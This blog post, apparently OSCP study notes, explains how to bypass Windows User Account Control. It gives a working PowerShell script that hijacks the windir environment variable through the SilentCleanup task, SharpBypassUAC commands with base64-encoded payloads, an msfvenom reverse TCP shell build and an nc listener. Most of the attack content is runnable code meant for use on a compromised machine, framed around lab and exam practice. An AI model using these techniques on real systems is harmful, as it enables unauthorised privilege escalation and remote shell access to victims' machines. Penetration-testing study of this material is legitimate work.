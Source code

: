 ```yaml
---
title: UAC bypass - why and how
date: 2022-06-05 12:20:00 -0600
categories: [UAC bypass, OSCP]
tags: [uac bypass, oscp]
---
```


# UAC bypass - why and how

As a hacker sometimes you will land on a windows machine as a user that has admin rights, but anything you try and do that will require admin rights will get blocked by UAC. 

The benefits of UAC are listed [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-overview#:~:text=User%20Account%20Control%20(UAC,changes%20to%20system%20settings.)) but boil down to blocking automatic execution of malware and also gives a user a second chance to say no to something that they clicked on.

If you can RDP into the machine then they bypass is easy. Just click yes instead of no.

This post is for when you don't have RDP access into the box. I have two optoins that I use that have worked for me.

## Option 1 via powershell script:

```powershell
if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    #It'll run as Administrator
    C:\Users\beaux\Downloads\rev.exe
} else {
    $registryPath = "HKCU:\Environment"
    $Name = "windir"
    $Value = "powershell -ep bypass -w h $PSCommandPath;#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value
    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```
Credit to this forum post <https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/>

## Option 2 via SharpBypassUAC

[SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC) has a bunch of options for bypassing UAC. Most of them are a "will not fix" from Microsoft. They don't consider it a real security issue.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.134 LPORT=4433 -f exe -o rev.exe`

`rlwrap nc -lnvp 4433`

Then back on the victim machine:

`SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IEM6XFVzZXJzXGJlYXV4XERvd25sb2Fkc1xyZXYuZXhlIA==`

The last part is base 64:

```bash
echo Y21kIC9jIHN0YXJ0IEM6XFVzZXJzXGJlYXV4XERvd25sb2Fkc1xyZXYuZXhlIA== | base6
4 -d
cmd /c start C:\Users\beaux\Downloads\rev.exe
```

There are a few other options besides `-b eventvwr` that can be found on their github repo <https://github.com/FatRodzianko/SharpBypassUAC>

```
Example usage for eventvwr bypass to launch calc.exe
SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for fodhelper bypass to launch calc.exe
SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for computerdefaults bypass to launch calc.exe
SharpBypassUAC.exe -b computerdefaults -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for sdclt bypass to launch calc.exe
SharpBypassUAC.exe -b sdclt -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Note: this appears to only work on Windows 10 in my testing
Example usage for slui bypass to launch calc.exe
SharpBypassUAC.exe -b slui -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for DiskCleanup bypass to launch calc.exe
SharpBypassUAC.exe -b dikcleanup -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==

Note: The command you execute will need to end in "&& REM"
```


If you are using it just for testing in htb or proving grounds you can grab the precompiled executable here:
<https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpBypassUAC.exe> 

If not you should compile it yourself, just in case.